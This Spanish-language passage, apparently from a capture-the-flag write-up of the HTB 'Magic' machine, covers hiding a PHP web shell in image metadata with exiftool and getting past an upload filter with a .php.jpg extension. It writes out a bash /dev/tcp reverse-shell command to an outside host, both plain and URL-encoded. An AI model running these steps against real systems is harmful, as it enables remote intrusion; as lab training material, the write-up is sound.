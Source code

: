 Toda imagen maneja metadatos, que serian los datos dentro del dato, algunos ejemplos de lo que recolecciona sería: el tamaño, fecha de creación, usuario que la modifico o la creo... Creo que ya se entiende la idea.

Consultando por internet, encontré que se pueden usar los metadatos para ejecutar un backdoor. En este caso **dentro de un tag** de los metadatos, puedo ingresar el código php (o lo que sea), que posteriormente el navegador lo interpretará y ejecutará. Usaremos `$ exiftool` para ver y editar los metadatos. 

> https://ironhackers.es/herramientas/img-upload-rce-cheat-sheet/
> http://underc0deblog.blogspot.com/2015/04/ocultar-codigo-php-en-una-imagen.html

##### 1. Obtener cualquier imagen

##### 2. Agregar metadato malicioso

Imagen antes:

![exift23before](https://github.com/jntxJ/Writeups/blob/master/HTB/Magic/images/exift23before.png)

Imagen después de insertar el tag modificado:

![exift23after](https://github.com/jntxJ/Writeups/blob/master/HTB/Magic/images/exift23after.png)

> Va el código php que permitira desde la misma url (GET) pasarle la instrucción a ejecutar en el sistema.

> __halt_compiler() hace que el servidor no ejecute los datos de la propia imagen

##### 3. Cambiar la extensión de la imagen de `.jpg` a `.php.jpg` y subirla

![page23upload](https://github.com/jntxJ/Writeups/blob/master/HTB/Magic/images/page23upload.png)

![page23whoami](https://github.com/jntxJ/Writeups/blob/master/HTB/Magic/images/page23whoami.png)

Perfecto, podemos ejecutar comandos, ahora intentaremos obtener una Shell reversa. 

`http://10.10.10.185/images/uploads/23.php.jpg?cmd=bash -c 'bash -i >& /dev/tcp/10.10.15.69/1233 0>&1'`

Pero no hace nada, pasando la consulta a URL Encode, quedaría así

`http://10.10.10.185/images/uploads/23.php.jpg?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.15.69%2F1233%200%3E%261%27`

![reverseshellwwwdata](https://github.com/jntxJ/Writeups/blob/master/HTB/Magic/images/reverseshellwwwdata.png)

Listo, estamos dentro :)

Lo siguiente (óptimo, necesario, preferible) es hacer tratamiento de la tty (entorno de entrada y salida de texto), ya que la Shell que tenemos no es completamente interactiva, acá me apoyo de s4vitar (aún no me aprendo los pasos :P)

> Video de s4vitar explicando: https://www.youtube.com/watch?v=amKkzk-yP14&t=953

Y ahora a enumerar... Hay varios archivos interesantes en `$ ls /var/www/Magic`
